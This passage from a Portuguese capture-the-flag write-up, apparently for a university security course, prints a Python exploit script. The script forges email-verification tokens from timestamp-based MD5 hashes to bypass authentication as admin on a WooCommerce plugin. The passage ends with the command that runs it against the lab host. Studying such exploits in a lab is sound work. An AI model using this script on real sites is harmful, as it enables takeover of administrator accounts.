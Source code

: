 ```py
args = parser.parse_args()
id = str(args.id)
url = args.url
if args.url[-1] != "/": # URL needs trailing /
        url = url + "/"

verify_url= url + "?wcj_user_id=" + id
r = requests.get(verify_url)

if r.status_code != 200:
        print("status code != 200")
        print(r.headers)
        sys.exit(-1)

def email_time_to_timestamp(s):
    tt = email.utils.parsedate_tz(s)
    if tt is None: return None
    return calendar.timegm(tt) - tt[9]

date = r.headers["Date"]
unix = email_time_to_timestamp(date)

def printBanner():
    print(f"{W}Timestamp: {B}" + date)
    print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
    print("We need to generate multiple timestamps in order to avoid delay related timing errors")
    print("One of the following links will log you in...\n")

printBanner()



for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
        hash = hashlib.md5(str(unix-i).encode()).hexdigest()
        print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
        token='{"id":"'+ id +'","code":"'+hash+'"}'
        token = base64.b64encode(token.encode()).decode()
        token = token.rstrip("=") # remove trailing =
        link = url+"my-account/?wcj_verify_email="+token
        print(link + f"\n{RST}")       
```

Guardando o script com o nome de `exploit.py` bastou executá-lo com a seguinte invocação:
```
python exploit.py http://ctf-fsi.fe.up.pt:5001/ 1
```

Para obter os possíveis links de *authentication bypass* como admin:
![/imgs4/cmd.png](/imgs4/cmd.png)
